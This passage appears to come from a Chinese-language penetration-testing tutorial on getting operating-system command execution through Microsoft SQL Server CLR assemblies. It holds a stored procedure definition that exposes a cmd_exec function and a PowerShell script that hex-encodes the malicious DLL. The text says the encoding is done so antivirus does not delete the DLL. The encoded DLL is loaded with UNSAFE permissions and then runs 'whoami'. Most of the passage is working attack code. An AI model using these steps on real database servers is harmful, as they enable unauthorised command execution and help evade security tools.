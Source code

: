 ```php
CREATE PROCEDURE [dbo].[cmd_exec] @execCommand NVARCHAR (4000) AS EXTERNAL NAME [shell].[StoredProcedures].[cmd_exec];
GO
```

成功执行命令  
![image.png](assets/1706232584-b57c8db7a41618033a7e7450cd338290.png)

### 16 进制 Dll 转换

由于 dll 可能会被查杀，尝试转换为 16 进制导入，使用以下 ps1 脚本转换 dll

```php
# Target file
$assemblyFile = "C:\\Users\\administrator\\Desktop\\cmd_exec.dll"

# Build top of TSQL CREATE ASSEMBLY statement
$stringBuilder = New-Object -Type System.Text.StringBuilder 
$stringBuilder.Append("CREATE ASSEMBLY [my_assembly] AUTHORIZATION [dbo] FROM `n0x") | Out-Null

# Read bytes from file
$fileStream = [IO.File]::OpenRead($assemblyFile)
while (($byte = $fileStream.ReadByte()) -gt -1) {
    $stringBuilder.Append($byte.ToString("X2")) | Out-Null
}

# Build bottom of TSQL CREATE ASSEMBLY statement
$stringBuilder.AppendLine("`nWITH PERMISSION_SET = UNSAFE") | Out-Null
$stringBuilder.AppendLine("GO") | Out-Null
$stringBuilder.AppendLine(" ") | Out-Null

# Build create procedure command
$stringBuilder.AppendLine("CREATE PROCEDURE [dbo].[cmd_exec] @execCommand NVARCHAR (4000) AS EXTERNAL NAME [my_assembly].[StoredProcedures].[cmd_exec];") | Out-Null
$stringBuilder.AppendLine("GO") | Out-Null
$stringBuilder.AppendLine(" ") | Out-Null

# Create run os command
$stringBuilder.AppendLine("EXEC[dbo].[cmd_exec] 'whoami'") | Out-Null
$stringBuilder.AppendLine("GO") | Out-Null
```
